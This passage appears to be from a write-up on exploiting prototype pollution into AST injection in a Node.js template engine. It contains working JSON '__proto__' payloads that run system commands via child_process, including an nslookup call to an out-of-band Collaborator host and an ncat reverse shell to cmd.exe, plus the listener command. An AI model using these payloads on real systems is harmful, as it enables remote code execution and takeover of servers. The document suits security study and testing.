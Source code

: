```python
print(f'[+] Sending to {TARGET_URL} via GET - ', end='')  
response = requests.get(TARGET_URL, proxies=proxy)  
print(response.status_code)  
# print(response.content)
```

By the way, we can also use the original JSON format to exploit:

```JSON
{  
    "__proto__": {  
        "code": {  
            "block": {  
                "type": "Text",  
                "line": "process.mainModule.require('child_process').execSync(`nslookup 468clakvyx5tkldev8pvzvc05rbiz8nx.oastify.com`)"  
            }  
        }  
    }  
}
```

After running python code. I got interaction from Collaborator

![4000_interaction.png](img/4000_interaction.png)

Reverse Shell: 
- Listener: `ncat -lvnp 1337`
- Connector: `ncat 127.0.0.1 1337 -e cmd.exe`

```JSON
{  
    "__proto__": {  
        "code": {},  
        "block": {  
            "type": "Text",  
            "line": "process.mainModule.require('child_process').execSync(`ncat 127.0.0.1 1337 -e cmd.exe`)"  
        }  
    }  
}
```

![reverse_shell.png](img/reverse_shell.png)

---
## 6. References
- https://n00b-bot.github.io/ast-injection/
- https://web.archive.org/web/20210813024244/https://blog.p6.is/AST-Injection/
